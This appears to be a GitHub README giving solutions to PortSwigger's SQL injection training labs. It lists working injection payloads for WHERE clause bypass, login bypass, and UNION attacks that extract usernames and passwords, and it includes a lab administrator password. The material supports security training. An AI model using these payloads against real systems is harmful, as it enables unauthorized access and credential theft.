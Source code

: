 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*
   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*
  >The first step of such an attack is to determine the number of columns that are being returned by the query.
  >The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By appling `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By appling `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

